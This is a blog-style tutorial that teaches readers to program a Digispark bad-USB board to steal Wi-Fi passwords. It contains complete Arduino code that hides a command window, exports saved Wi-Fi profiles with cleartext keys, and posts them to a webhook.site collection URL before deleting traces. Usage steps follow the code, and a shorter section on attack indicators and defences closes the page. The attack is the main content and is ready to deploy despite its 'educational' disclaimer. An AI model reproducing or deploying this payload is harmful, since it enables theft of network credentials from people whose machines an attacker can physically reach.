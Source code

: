 ```yaml
---
title: "Steal WIFI Password with bad USB ⚠️"
date: 2025-03-14 15:04:02 +0330
categories: [USB Attack , Cybersecurity]
tags: [Powershell, USB, Digispark,Hack]
description: "How to extract the system WIFI password using bad usb
Code + Protect Attack + USB GUARD"
image: assets/img/usb attack/usb.jpg
---
```


# USB Attack 

## 🛡️Overview
- **1. Today we are going to program the digi spark board so that it can send WiFi passwords to the hacker**
- **2. The design and operation of this training is very simple in this area and has been passed for your testing and awareness**
- **3. These attacks are physical and can be very dangerous.**
- 
### 🔍 What is a HID attack?
**HID** attacks are usually carried out by small devices such as the **Digispark ATTiny85**. When connected to a computer, these devices present themselves as a keyboard or mouse and execute **predefined commands** without the user's permission. Examples of these attacks include:
- Running **malicious PowerShell commands**
- Stealing sensitive information (such as Wi-Fi passwords and browser information)
- Downloading and executing malware
- Changing system security settings

---
## Requirements :
Ability to work with IDE & Library
- **[DigiSpark Board](https://www.aliexpress.com/item/2040316211.html?src=google&pdp_npi=4%40dis!EUR!3.48!3.48!!!!!%40!58307777832!ppc!!!&src=google&albch=shopping&acnt=298-731-3000&isdl=y&slnk=&plac=&mtctp=&albbt=Google_7_shopping&aff_platform=google&aff_short_key=UneMJZVf&gclsrc=aw.ds&&albagn=888888&&ds_e_adid=&ds_e_matchtype=&ds_e_device=c&ds_e_network=x&ds_e_product_group_id=&ds_e_product_id=en2040316211&ds_e_product_merchant_id=107407105&ds_e_product_country=FI&ds_e_product_language=en&ds_e_product_channel=online&ds_e_product_store_id=&ds_url_v=2&albcp=21554396823&albag=&isSmbAutoCall=false&needSmbHouyi=false&gad_source=1&gclid=CjwKCAjwp8--BhBREiwAj7og10doGVUDznQLYsg_BZjGRzoUpIk65lCJv6CeL4CorOxbgnRpF7wWGRoCewQQAvD_BwE)**
- **[Arduino IDE](https://www.arduino.cc/en/software)**<br>
- **[DigiKeyboardFr](https://github.com/Robotechnic/DigiKeyboardFr)**
- **[DigiKeyboardBe](https://github.com/IncroyablePix/DigiKeyboardBe)**


---
# Code
```cpp
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51
#define KEY_ENTER 0x28
void setup() {
  
pinMode(1, OUTPUT);
}

void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(200);
 
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1");
  DigiKeyboard.delay(700);
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); 
  DigiKeyboard.sendKeyStroke(KEY_M); 
  for(int i =0; i < 110; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN); 
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); 
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); 
  DigiKeyboard.delay(700);
  DigiKeyboard.println("netsh wlan export profile key=clear"); 
  DigiKeyboard.delay(700);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS");
  DigiKeyboard.delay(700);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/YourToken -Method POST -InFile Wi-Fi-PASS");
  DigiKeyboard.delay(700);
  DigiKeyboard.println("del Wi-* /s /f /q"); 
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  
  digitalWrite(1, HIGH); 
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
}

```
### Webhook
- **Go to the [Webhook](https://webhook.site/) and copy your url and paste it in line 33 of the yourtoken section of the code. Then upload the code to the board**
![webhook](assets/img/usb attack/webhook.png)
### Final
- **Connect the board to the system and be patient until the work is done and finally go to the webhook.**
![final](assets/img/usb attack/final.png)
---
## ⚠️ HID Attack Indicators
If a device has connected to your system without your knowledge and you're noticing unusual behavior, you might be under a HID attack. Some signs of this attack include:
- Sudden opening of CMD or PowerShell
- Unusual mouse movement or automatic text typing
- Creation of unknown files on the system
- Activation of suspicious internet connections
- 
---
## 🛑 Ways to prevent HID attacks
### 1. **Disable suspicious USB devices** 🚫
You can disable the ability to accept new HID devices in Windows:
```powershell
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBHID /v Start /t REG_DWORD /d 4 /f
```
### 2. **Use security software** 🛡️
Software such as **USBGuard** and **NoHID** can prevent HID devices from running automatically.
- **USBGuard (Linux only)**:
```bash
sudo apt install usbguard
```
- **NoHID for Windows**: You can use software such as **G Data USB Keyboard Guard**.

### 3. **Enable security settings in BIOS/UEFI** ⚙️
Many motherboards have the ability to **disable unnecessary USB ports**. By entering BIOS/UEFI settings, you can:
- **Disable unnecessary USB ports**.
- **Allow access only to known devices**.

### 4. **Use a Data-Only USB Adapter** 🔌
There are special USB adapters that **only allow power transfer and block data transfer**.

### 5. **Monitor system logs** 📊
Using tools like **Event Viewer on Windows** and **dmesg on Linux**, you can find out what devices are connected to your system.
```powershell
Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
```

---
## 📢 Resources and Useful Links
- [USBGuard GitHub](https://github.com/dkopecek/usbguard)
- [G Data USB Keyboard Guard](https://www.gdata.de/usb-keyboard-guard)


---
##  Disclaimer 🤝
This document and its accompanying code are provided for **educational purposes only**. The author is not responsible for any misuse or damage caused by the use of this information.

---
## 📡 Social Media 
[![Telegram](https://img.shields.io/badge/Telegram-Join-blue)](https://t.me/i2xam1r)  
[![Instagram](https://img.shields.io/badge/Instagram-Follow-red)](https://instagram.com/2xam1r)  
[![GitHub](https://img.shields.io/badge/GitHub-View-black)](https://github.com/i2xam1r)

[![Discord server](https://discordapp.com/api/guilds/938143724565835848/embed.png?style=banner3)](https://discord.gg/WtPzSe94)

---